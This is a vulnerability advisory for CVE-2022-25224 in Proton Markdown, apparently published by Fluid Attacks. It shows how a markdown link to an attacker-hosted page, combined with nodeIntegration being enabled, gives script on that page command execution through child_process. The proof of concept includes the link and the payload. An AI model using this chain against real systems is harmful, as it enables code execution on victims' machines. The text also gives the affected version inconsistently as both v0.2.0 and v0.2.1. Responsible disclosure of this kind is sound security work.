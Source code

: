 ```yaml
---
slug: advisories/lennon/
title: Proton v0.2.0 - XSS To RCE
authors: Oscar Uribe
writer: ouribe
codename: lennon
product: Proton v0.2.0
date: 2022-04-29 10:00 COT
cveid: CVE-2022-25224
severity: 7.1
description: Proton Markdown Version 0.2.0 - XSS Markdown Link To RCE
keywords: Fluid Attacks, Security, Vulnerabilities, Proton, XSS, RCE
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                     |
| --------------------- | --------------------------------------------------- |
| **Name**              | Proton v0.2.0 - XSS To RCE                          |
| **Code name**         | [Lennon](https://en.wikipedia.org/wiki/John_Lennon) |
| **Product**           | Proton Markdown                                     |
| **Affected versions** | Version 0.2.0                                       |
| **State**             | Public                                              |
| **Release date**      | 2022-05-17                                          |

## Vulnerability

|                       |                                                                                                      |
| --------------------- | ---------------------------------------------------------------------------------------------------- |
| **Kind**              | XSS to RCE                                                                                           |
| **Rule**              | [010. Stored cross-site scripting (XSS)](https://docs.fluidattacks.com/criteria/vulnerabilities/010) |
| **Remote**            | No                                                                                                   |
| **CVSSv3 Vector**     | CVSS:3.1/AV:L/AC:L/PR:N/UI:R/S:C/C:L/I:H/A:N                                                         |
| **CVSSv3 Base Score** | 7.1                                                                                                  |
| **Exploit available** | No                                                                                                   |
| **CVE ID(s)**         | [CVE-2022-25224](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-25224)                      |

## Description

Proton **v0.2.1** allows an attacker to create a malicious
link inside a markdown file. When the victim clicks the link,
the application opens the site in the current frame allowing
an attacker to host JavaScript code in the malicious link in
order to trigger an XSS attack. The `nodeIntegration` configuration
is set to **on** which allows the webpage to use `NodeJs` features,
an attacker can leverage this to run OS commands.

## Proof of Concept

### Steps to reproduce

1. Create a markdown file with the following content.

   ```javascript
   [Click me!!!](http://192.168.1.67:8002/rce.html)
   ```

2. Host the `rce.html` file with the following
   content on a server controlled by the attacker.

   ```javascript
    <script>
        require('child_process').exec('calc');
    </script>
   ```

3. Send the markdown file to the victim.
   When the victim clicks the markdown link the site
   will be open inside electron and the JavaScript
   code will spawn a calculator.

### System Information

* Version: Proton v0.2.1.
* Operating System: Windows 10.0.19042 N/A Build 19042.
* Installer: Proton.Setup.0.2.0.exe

## Exploit

There is no exploit for the vulnerability but can be manually exploited.

## Mitigation

By 2022-05-17 there is not a patch resolving the issue.

## Credits

The vulnerability was discovered by [Oscar
Uribe](https://co.linkedin.com/in/oscar-uribe-londo%C3%B1o-0b6534155) from the Offensive
Team of  `Fluid Attacks`.

## References

**Vendor page** <https://github.com/steventhanna/proton/>

## Timeline

<time-lapse
  discovered="2022-04-29"
  contacted="2022-04-29"
  replied=""
  confirmed=""
  patched=""
  disclosure="2022-05-17">
</time-lapse>

